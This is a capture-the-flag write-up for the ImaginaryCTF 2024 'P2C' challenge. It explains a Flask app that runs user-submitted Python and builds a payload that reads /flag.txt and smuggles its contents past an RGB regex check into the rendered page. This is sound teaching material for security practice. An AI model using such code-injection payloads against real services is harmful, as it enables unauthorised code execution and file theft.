


# Imaginary CTF 2024 - P2C

## Summary

1. Submit this payload in the HTML form:
```python
from pathlib import Path
import sys
bypass_color_check = "(0, 0, 0)"
flag = Path("/flag.txt").read_text()
print(f"{bypass_color_check} {flag}")
sys.exit()
```
2. Inspect the HTML code for the flag
```html
...
<body>
    <h1>P2C (Python To Color)</h1>
    <div class="content">
        <form method="post">
            <textarea name="code" placeholder="Python code goes here..."></textarea><br>
            <button type="submit">Run Code</button>
        </form>
        
        <script>
            changeBackgroundColor("rgb(0, 0, 0) ictf{d1_color_picker_fr_2ce0dd3d}");
        </script>
        
    </div>
</body>
...
```
3. ...?
4. Profit 💸💸💸

## Setup local testing environment

First things first, we should setup a local testing environment.
This lets us rapidly prototype exploits without spamming the actual challenge server with unhelpful requests.

To set this environment up, we need [Docker Desktop](https://www.docker.com/products/docker-desktop/).

> It's free. If on Windows - like me - make sure to enable the [WSL2 backend](https://docs.docker.com/desktop/wsl/). 

Download the files from [CyberSharing](https://cybersharing.net/s/593d1cd970182e64):

```bash
# I use PowerShell ok, don't judge me
Invoke-WebRequest -Uri "https://cybersharing.net/api/download/zip/e028756e-547e-43c6-a47b-5fc6dbfd8384/91e0b826-7fa6-4862-a313-5395b1a384a8/files.zip" -OutFile "files.zip"
```

Then unzip the `.ZIP` archives.

```bash
unzip files.zip
unzip p2c_release.zip
```

The challenge says the flag is stored in `flag.txt` so we should modify the dockerfile to also create a fake flag for testing.

```dockerfile
...
RUN /usr/sbin/useradd --no-create-home -u 1024 user

# Add this line to create a fake flag in the Docker image
RUN echo "ictf{TEST_FLAG}" >> /flag.txt

COPY app /app
...
```

Next, change directory to `./p2c_release`
Then, we build the Docker image:

```bash
docker build --tag 'p2c' .
docker run -d -p 8000:80 'p2c'
```

> The `-p 8000:80` maps `localhost:8000` to port `80` on the image.
> We do this because in the docker file, port `80` is exposed
>
>```dockerfile
>...
> # Port 80 is exposed on the Docker image
>EXPOSE 80
>...
>```

Finally, visit the live application at [localhost:8000](http://localhost:8000). Now we are ready to get started.

## Understanding the App

If we enter text into the form textbox and hit the "Run Code" button, it seems to convert the text into a colour. Although, repeating a few submissions with the same text results in different colours each time, so the colour likely doesn't actually depend on the code we submit.
Despite the name, non-Python code seems to work, too. 



We are given the application source code, so let's poke around there.

The `app.py` file tells us we are dealing with a [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application.
The `xec` function (probably short for "execute" or "exec"?) seems exploitable because it gets its argument from us, the user, with practically no input validation. Never trust user input, kids.

```python

def xec(code): ### <--- We can exploit this >:)
    ...

@app.route('/', methods=["GET", "POST"])
def index():
    res = None
    if request.method == "POST":
        code = request.form["code"]
        res = xec(code) ### <--- We can exploit this >:)

        valid = re.compile(r"\([0-9]{1,3}, [0-9]{1,3}, [0-9]{1,3}\)")

        ### The code below can inject `res` into the HTML template
        if res == None:
            return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})")
        if valid.match("".join(res.strip().split("\n")[-1])):
            return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1])) ### <--- We can exploit this >:)
        ...
```

If we can somehow get the flag into the `res` variable, we can probably inject the flag into the HTML template and view it in our browser.

But to do that we need to understand `xec` better:

```python
def xec(code): ### <-- `code` is what we input into the textbox
    code = code.strip()
    indented = "\n".join(["    " + line for line in code.strip().splitlines()]) ### <-- `code` gets reformatted with idents, as per Python syntax rules

    file = f"/tmp/uploads/code_{md5(code.encode()).hexdigest()}.py" ### <-- Creates a randomly named file
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented) ### <-- Writes our `code` to the file such that our `code` becomes the body of the `main` function
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""") ### <-- Runs the `main` function, passes results to `rgb_parse` and prints the result
        
    os.system(f"chmod 755 {file}") ### <-- Makes the file executable 👀

    try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1) ### <-- Executes the file AND stores the whatever it printed to standard out?! Talk about trusting user input ... We can exploit this >:)
        output = res.stdout
    except Exception as e:
        output = None

    os.remove(file)

    return output
```

Fantastic, we just have to submit some valid Python code that reads and prints the flag from the `/flag.txt` on the server.

## Designing the Payload

The printed flag will be captured by the call to `subprocess.run` and returned in the `output` variable, which will be returned to `res`. In turn, `res` will be passed into the `rgb` variable of the HTML template. Based on this, here's our payload:

```python
# Our first payload
from pathlib import Path
flag = Path("/flag.txt").read_text()
print(flag) ### <-- captured and bound to the `output` variable thanks to `subprocess.run(..., capture_output=True)`
```

Except, there's a problem:

```python
def xec(code):
    ...
    with open(file, 'w') as f:
        f.write("def main():\n")
        f.write(indented)
        f.write("""\nfrom parse import rgb_parse
print(rgb_parse(main()))""") ### <-- This will ALSO be captured and bound to `output`

   try:
        res = subprocess.run(["sudo", "-u", "user", "python3", file], capture_output=True, text=True, check=True, timeout=0.1)
        output = res.stdout
    ...

    return output
```

This causes a problem for us because of the validation code from earlier; assuming our payload passes the validation step, the app only injects the last line of `output` (which is bound to `res`) into the template!

```python
def index():
    ...
    res = xec(code)
    ...
    if valid.match("".join(res.strip().split("\n")[-1])): ### <-- Our payload must pass this validation to be injected into the template...
            return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1])) ### <-- And this ensures only the last line of `res` is included in the template
    ...
```

This means if we use the above payload, we'll only end up injecting the output of `rgb_parse(main())` (which is just some tuple of red-green-blue values)

We need to modify our payload such that the flag is **in the last line printed to standard out**.
This is pretty straightforward; we can just end the program as soon as we print the flag.

```python
# New and improved payload
from pathlib import Path
import sys ### <-- Module with the `.exit()` function
flag = Path("/flag.txt").read_text()
print(flag)
sys.exit() ### <-- Ends the program, ensuring that the only text bound to the `output` variable is the flag 
```

Cool, but we're not quite done yet. We still have to actually pass the input validation step:

```python
def index():
    ...
    res = xec(code)
    valid = re.compile(r"\([0-9]{1,3}, [0-9]{1,3}, [0-9]{1,3}\)") ### <-- A regular expression to validate if `res` contains an rgb tuple
    ...
    if valid.match("".join(res.strip().split("\n")[-1])): ### <-- Our payload must pass this validation to be injected into the template...
        return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
    return render_template("index.html", rgb=f"rgb({randint(0, 256)}, {randint(0, 256)}, {randint(0, 256)})") ### <-- ... otherwise we just get a random color, and no flag : (
    ...
```

The `valid.match` call just checks if `res` contains a sequence of `(`, 1-3 digits, a comma, 1-3 digits, another comma, 1-3 digits again, and a closing `)`.
In other words, it just checks that our input contains one or more rgb tuples. For example, `(255, 36, 71)`.

No problem, we can add that:

```python
# Payload prime
from pathlib import Path
import sys
bypass_color_check = "(0, 0, 0)"
flag = Path("/flag.txt").read_text()
print(f"{bypass_color_check} {flag}")
sys.exit()
```

Then we just check for the flag wherever `res` was injected.
`res` was bound to the `rgb` keyword in the `render_template` function:

```python
def index():
    ...
    if valid.match("".join(res.strip().split("\n")[-1])):
        return render_template("index.html", rgb="rgb" + "".join(res.strip().split("\n")[-1]))
    ...
```

which means we just have to look for `rgb` in the template file `./app/templates/index.html`:

```jinja
...
        
        <script>
            changeBackgroundColor("{{ rgb }}");
        </script>
        
...
```

After submitting our payload, we find the flag!



> I forgot to take a screenshot while the challenge server was still live, but the actual flag was `ictf{d1_color_picker_fr_2ce0dd3d}`

---

Writeup by ImAKappa, for ImaginaryCTF 2024.

2024-07-27